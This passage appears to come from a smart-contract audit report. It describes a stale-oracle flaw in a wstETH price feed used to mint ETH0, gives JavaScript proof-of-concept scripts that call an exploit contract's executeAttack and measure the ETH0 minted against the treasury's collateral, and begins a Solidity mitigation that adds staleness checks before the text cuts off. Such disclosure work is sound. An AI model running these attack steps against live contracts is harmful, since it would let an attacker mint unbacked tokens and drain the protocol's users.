 
```javascript
// Test script
async function testExploit() {
    const exploit = await ethers.getContractAt("ETH0OracleExploit", EXPLOIT_ADDRESS);
    


    // Verify oracle timestamp manipulation
    const timestamp = await exploit.testOracleTimestamp();
    console.log("Oracle timestamp:", timestamp.toString());
    console.log("Block timestamp:", (await ethers.provider.getBlock("latest")).timestamp);
   

    // Execute attack with 1000 wstETH
    const amount = ethers.utils.parseEther("1000");
    await exploit.executeAttack(amount);
}
```

```javascript
// Verification script
async function verifyImpact() {
    const daoCollateral = await ethers.getContractAt("IDaoCollateral", DAO_COLLATERAL_ADDRESS);
    const eth0 = await ethers.getContractAt("IERC20", ETH0_ADDRESS);
    
    // Check ETH0 balance of attacker
    const balance = await eth0.balanceOf(EXPLOIT_ADDRESS);
    console.log("ETH0 minted:", ethers.utils.formatEther(balance));
    
    // Check protocol's collateralization
    const treasury = await daoCollateral.treasury();
    const wstETH = await ethers.getContractAt("IERC20", WSTETH_ADDRESS);
    const collateral = await wstETH.balanceOf(treasury);
    console.log("wstETH in treasury:", ethers.utils.formatEther(collateral));
}
```

### Mitigation

Here is the mitigation in code:

```solidity
// SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.20;

import {AggregatorV3Interface} from "src/interfaces/oracles/AggregatorV3Interface.sol";
import {IWstETH} from "src/interfaces/IWstETH.sol";

/**
 * @title Fixed LidoProxyWstETHPriceFeed
 * @notice Fixed implementation that properly tracks last update time and validates price data
 */
contract LidoProxyWstETHPriceFeed is AggregatorV3Interface {
    error InvalidDecimalsNumber();
    error StalePrice();
    error InvalidPrice();

    address public immutable WST_ETH_CONTRACT;
    uint8 public constant PRICE_FEED_DECIMALS = 18;
    
    // Added storage variables for proper timestamp tracking
    uint256 public lastUpdateTimestamp;
    uint256 public constant MAX_PRICE_DELAY = 1 hours;
    int256 public lastPrice;

```